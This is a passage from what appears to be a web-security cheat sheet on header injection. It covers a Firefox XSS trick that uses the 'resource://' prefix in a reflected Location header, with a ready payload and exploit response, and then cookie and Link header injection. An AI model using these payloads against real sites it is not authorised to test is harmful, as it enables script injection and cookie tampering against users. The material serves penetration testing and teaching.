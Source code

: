 #### Firefox XSS without CRLF

If you have **the same injection point** in a **response** both in the `Location:` and in the **body**, where you can escape the body for XSS with special characters, you can use the `resource://` prefix to ignore the redirect. After `?` special characters are allowed:

```http
HTTP/1.1 302 Found
Location: [INPUT]
Content-Type: text/html

<html>Object moved to <a href="[INPUT]">here</a></html>
```

**Payload**: `resource://test?"><img src onerror=alert()>`

{% code title="Exploit" %}
```http
HTTP/1.1 302 Found
Location: resource://test?"><img src onerror=alert()>
Content-Type: text/html

<html>Object moved to <a href="resource://test?"><img src onerror=alert()>">here</a></html>
```
{% endcode %}

If this protocol isn't allowed in your situation, try appending a correct `https://` URL _after it_ to see if it performs a partial match.

## Response Headers

If response splitting isn't an option for whatever reason, you may still get interesting results out of inject some special headers that the browser understands.

### Set-Cookie

One of the simplest is just setting a cookie in the response with the `Set-Cookie:` header. This has the same impact as [#cookie-tossing](cross-site-request-forgery-csrf.md#cookie-tossing "mention"), but if you're targeting the same host would also allow setting `__Host-` prefixed cookies.

You can only set one cookie per header, but this is no problem if you can inject multiple headers. One fact that makes this especially useful is the fact that it **works on redirects**:

```http
HTTP/1.1 302 Found
Location: /somewhere
Set-Cookie: xss=<script>alert(origin)</script>
```

### Link

The [`Link:`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Link) header is a special one that has many different features. In the header value you provide a link in between angle brackets (`<>`), followed by attributes like `rel=` that specify what it's used for. Using a comma (`,`) it's possible to provide multiple link rules in one header.

